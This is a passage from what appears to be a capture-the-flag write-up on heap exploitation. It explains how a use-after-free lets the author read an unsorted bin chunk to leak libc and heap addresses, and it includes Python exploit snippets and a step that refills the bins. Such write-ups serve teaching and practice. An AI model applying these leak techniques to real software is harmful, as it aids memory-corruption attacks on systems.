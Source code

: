 and since we have UAF on dangling pointers, we can perform read that `unsorted bin` chunk to leak `libc`, while we're on the way, might as well read the other chunks to leak heap address.&#x20;

```python
# unsorted bin
read(3)
io.recvuntil(b'val = ')
leak = encode_leak(io.recvuntil(b'\\x00', drop=True))
libc.address = leak - 0x21ace0

read(2)
io.recvuntil(b'val = ')
leak = encode_leak(io.recvuntil(b'\\x00', drop=True))
heap = demangle(leak) - 0x6e0
```

<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption><p>leaking memory</p></figcaption></figure>

before moving on, I like to clear the bins just to refresh the heap state to start fresh as if it was never touched.&#x20;

```python
# clean bins
for i in range(4):
    create(i, 0x100, f'KEY-{i}'.encode(), 0x100, f'IDX-{i}'.encode())
```

<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption><p>cleaned bins</p></figcaption></figure>
